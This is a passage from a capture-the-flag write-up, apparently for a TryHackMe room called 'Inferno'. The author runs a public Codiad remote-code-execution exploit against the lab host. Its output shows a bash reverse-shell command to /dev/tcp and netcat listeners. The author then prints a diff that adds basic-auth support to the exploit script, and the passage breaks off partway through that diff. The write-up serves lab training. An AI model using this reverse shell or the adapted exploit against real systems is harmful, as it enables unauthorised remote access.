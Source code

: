 After a bit of searching around I finally found [this nice exploit to do RCE](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit).
Let's fire up the exploit:

```
$ python exploit.py http://inferno.thm/inferno/ admin dante1 10.11.25.15 1234 linux
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/10.11.25.15/1235 0>&1 2>&1"' | nc -lnvp 1234
nc -lnvp 1235
[+] Please confirm that you have done the two command above [y/n]
[Y/n] y
[+] Starting...
[+] Login Content : <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at inferno.thm Port 80</address>
</body></html>

[-] Login failed! Please check your username and password.
```

Hmm ok so the script hits the basic auth and will not login. This exploit is not built for the dual layer authentiation used here. 

Looking through the exploit code I can quickly see that it used the nice "requests" python module. Adding basic auth login to this is very easy. 
Simply import the HTTPBasicAuth class from requests and then use it as argument for whenever requests are sent in the script.
A diff of the change could look like this:
```
$ diff exploit.py exploit-fixed.py
7c7
< 
---
> from requests.auth import HTTPBasicAuth
9c9,10
< 
---
> buser = "admin"
> bpass = "REDACTED"
20c21
<     response = session.post(url, data=data, verify=False)
---
>     response = session.post(url, data=data,  auth=HTTPBasicAuth(buser, bpass), verify=False)
29,30c30,31
<     url = domain + "/components/project/controller.php?action=get_current"
<     response = session.get(url, verify=False)
---
>     url = domain + "/components/project/controller.php?action=get_current"   
>     response = session.get(url, verify=False,  auth=HTTPBasicAuth(buser, bpass)  )
88c89
<         response = session.post(url, data=payload, headers=headers, verify=False)
---
```